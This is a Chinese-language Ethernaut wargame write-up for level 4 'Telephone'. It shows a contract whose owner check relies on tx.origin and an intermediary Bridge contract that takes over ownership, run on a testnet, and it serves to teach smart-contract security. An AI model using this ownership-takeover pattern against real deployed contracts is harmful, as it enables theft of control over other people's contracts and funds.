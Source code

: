 # level4 Telephone

## 1. 问题

将 `Telephone` 合约的 `owner` 设置为自己的地址。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```


## 2. 解法

合约中提供了 `changeOwner` 函数，只要该函数的调用方（`msg.sender`）和交易发起方（`tx.origin`）不一致，就可以成功修改 `owner`。我们可以通过部署一个 Bridge 合约，间接调用 `changeOwner` 函数来实现目标。

> [!TIP]
> `tx.origin` 指向的是**最初发起交易**的 EOA 地址，而 `msg.sender` 指向的是**直接调用本合约的上一个地址**。
> 对于嵌套调用的场景：`EOA(A) -> CONTRACT(B) -> CONTRACT(C)`，在合约 C 中的函数中，`tx.origin = A`，`msg.sender = B`。


1. 编写一个 Bridge 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Bridge {
    Telephone public telephone;

    constructor(address _telephone) {
        telephone = Telephone(_telephone);
    }
    
    function send() external {
        // 设置owner为EOA地址
        telephone.changeOwner(msg.sender);
    }
} 
```

2. 将上述代码复制到 Remix，部署到测试链：[交易链接](https://sepolia.etherscan.io/tx/0xf97be735216a1dddb144ff56dcf25b7de9f94af21c7e5f2ef987c7557d317f35)。


3. 在 Remix 中调用 `send` 接口：[交易链接](https://sepolia.etherscan.io/tx/0x77174fef6cca1ed5feb39a0ee7ea1ee836f4eca9612c029806adbe61872c6b0a)。


4. 在 Ethernaut 控制台查询 `owner`，确认地址已经变更：

```bash
await contract.owner()
```

5. 点击 `submit instance`， 提交通过！


| [⬅️ level3 Coin Flip](../level3_coinflip/README.md) | [level5 Token ➡️](../level5_token/README.md) |
|:------------------------------|--------------------------:|